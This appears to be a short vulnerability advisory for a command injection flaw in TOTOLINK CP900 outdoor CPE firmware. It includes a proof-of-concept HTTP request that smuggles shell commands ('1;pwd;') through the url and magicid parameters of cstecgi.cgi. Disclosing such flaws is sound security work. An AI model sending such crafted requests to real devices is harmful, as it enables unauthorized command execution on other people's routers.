

## CP900 command injection

### Overview

* Vendor: TOTOLINK

* Product: CP900
* Version: TOTOLink outdoor CPE CP900_V6.3c.1144_B20190715

* Manufacturer's address：https://www.totolink.net/
* Firmware download address ：https://www.totolink.net/data/upload/20190823/72f2e599854470f5752826473d74b7e0.zip

### Vulnerability details

Totolink outdoor CPE CP900_V6.3c.1144_B20190715 were discovered to contain a command injection vulnerability in the `CloudSrvUserdataVersionCheck` function via the `url` or `magicid` parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.



#### PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 130
Origin: http://192.168.0.254
Connection: close
Referer: http://192.168.0.254
Cookie: SESSION_ID=2:1801026000:2

{
    "topicurl": "CloudSrvUserdataVersionCheck",
    "url": "1;pwd;",
    "magicid": "2;pwd;"
}
```

